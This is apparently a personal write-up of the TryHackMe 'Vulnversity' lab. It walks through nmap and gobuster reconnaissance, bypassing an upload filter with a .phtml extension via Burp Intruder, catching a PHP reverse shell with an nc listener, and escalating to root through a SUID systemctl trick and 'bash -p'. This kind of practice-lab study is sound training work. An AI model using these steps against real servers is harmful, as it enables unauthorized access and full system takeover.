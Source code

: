 # Vulnversity

```
export $MIP=<my-openvpn-ip>
export $IP=<tryhackme-box-ip>
```

## Reconnaissance
Run the following scan and outputting results to file
```
nmap -sV -sC -oN nlog.txt $IP
```
Questions:
1. ports? (6)
2. squid proxy version? (3.5.12)
3. operating system? (Linux; Unix; => Ubuntu)
4. web server port? (3333 => dec-notes)

Ports found:
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
```

## GoBuster

Use gobuster to do discovery on the web service running on port 3333 to discover the directories exposed.

Example running gobuster with rockyou.txt
```
gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/rockyou.txt
```

Example running gobuster with dirbuster/directory-list-2.3-small.txt
```
gobuster dir -u http://$IP:333 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

Directory listings discovered
```
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
```

## Compromise the Web Server

Commonly blocked file types
```
.php, .java, .c, .py, .html, .js, etc.
```

-> Most web services should whitelist filetypes based on the purpose of the upload and secure any sensitive formats (executable .c, .java, .js, etc...) to prevent malicious code execution

The target box is blocking *.php* in this case. However php can be in several formats.

```
.php
.php3
.php4
.php5
.phtml
```

### Burp Suite

Specifically going to administer a Burp Suite + Intruder > Sniper Attack. 

1. Setup a proxy to capture traffic between Burp Suite and target
2. Capture upload request
3. Send request to Intruder tab
4. Add list of extensions to try as Payload (php ext above)
5. On Posiions tab correct the replacement character ($) around the file extension
6. Start attack
7. Examine each response to check for a proper message (other apps may 500 with bad request)

**.phtml worked for our example!!**

Note: *All requests came back 200 but only allowed the phtml extension of the list passed in.*

### Reverse Shell

Using [PenTestMonkeys Php ReverseShell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) for our purposes here.

Note: *change the ip and port to the desired capture destination*

1. Uploading to /internal page works successfully

-> followed up with go buster and found the following directories off of /internal

```
/uploads (Status: 301)
/css (Status: 301)
```

-> /uploads contains files uploaded by the /internal upload form

3. We need to open up a connection listener to await the reverse shell connection

netcat - can open a port on your ip to listen and capture a reverse shell.
```
nc -lvnp 9999
```

4. Navigate to https://$IP:3333/internal/uploads/reverse_shell.phtml to execute our script

5. The terminal where we started listening on should start terminal prompt as /bin/sh ($)

6. You should be able to 

```
id                  # see current role and privs
pwd                 # see where you are
whoami              # check which user you are in
cd /home && ls -la  # check which users exist
```

7. TryHackMe wants the flag in user directory -> cd /home/bill && cat user.txt

## Priviledge Escalation

SUID - In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

1. Found SUIDs with 'find / -perm /4000'
2. Did a dump of SUIDs set for Target box (in attack/suid.txt)
3. Did a dump of my SUIDs set (in attack/mysuid.txt)
4. GTFObins search of some /bin/* found systemctl as exploitable
5. Used JohnHammods approach from YouTube
6. Copied GTFObins to attack/escalate.sh
7. Checked /bin/bash currently is:

```
-rwxr-xr-x 1 root root 1183448 Jun 18 11:44 /bin/bash
```

7. After executeing GTFObins scripts it should show

```
-rwsr-sr-x 1 root root 1183448 Jun 18 11:44 /bin/bash
```

8. Theoreticall bash -p should now get me a effective root shell however I had to use python to run a script to spawn a bash shell and then run bash -p from there.

```
python -c 'import pty; pty.spawn("/bin/bash")'
bash -p
```

9. Then I acquired a root shell, and can cd to root to acquire the root.txt flag









